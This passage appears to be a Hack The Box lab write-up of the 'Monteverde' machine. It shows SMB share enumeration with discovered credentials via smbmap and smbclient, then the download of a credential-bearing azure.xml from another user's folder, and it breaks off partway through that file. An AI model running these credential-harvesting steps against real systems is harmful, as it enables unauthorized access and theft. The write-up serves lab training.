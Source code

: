 We've found one set of valid user credentials, username `SABatchJobs` with password `SABatchJobs`.

## SMB

We can use those user credentials to see what access we have on the machine via SMB.

```bash
luc@kali:~/HTB/Monteverde$ smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
[+] IP: 10.10.10.172:445        Name: 10.10.10.172
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        azure_uploads                                           READ ONLY
        C$                                                      NO ACCESS       Default share
        E$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        SYSVOL                                                  READ ONLY       Logon server share
        users$                                                  READ ONLY
```

We've access to multiple shares, we can mount them all or we can rerun `smbmap` with the `-R` argument to see all files we've access to.

```bash
luc@kali:~/HTB/Monteverde$ smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -R
...
.\users$\mhope\*
        dr--r--r--                0 Fri Jan  3 14:41:18 2020    .
        dr--r--r--                0 Fri Jan  3 14:41:18 2020    ..
        fw--w--w--             1212 Fri Jan  3 15:59:24 2020    azure.xml
...

```

This `azure.xml` file could be interesting because we've access to it and it's in the directory of another user.

```bash
luc@kali:~/HTB/Monteverde$  smbclient \\\\10.10.10.172\\users$ -U SABatchJobs SABatchJobs
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 14:12:48 2020
  ..                                  D        0  Fri Jan  3 14:12:48 2020
  dgalanos                            D        0  Fri Jan  3 14:12:30 2020
  mhope                               D        0  Fri Jan  3 14:41:18 2020
  roleary                             D        0  Fri Jan  3 14:10:30 2020
  smorgan                             D        0  Fri Jan  3 14:10:24 2020

                524031 blocks of size 4096. 519955 blocks available
smb: \> cd mhope
smb: \mhope\> dir
  .                                   D        0  Fri Jan  3 14:41:18 2020
  ..                                  D        0  Fri Jan  3 14:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 14:40:23 2020

                524031 blocks of size 4096. 519955 blocks available
smb: \mhope\> get azure.xml
getting file \mhope\azure.xml of size 1212 as azure.xml (16.4 KiloBytes/sec) (average 16.4 KiloBytes/sec)
smb: \mhope\> exit
luc@kali:~/HTB/Monteverde$ cat azure.xml 
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
```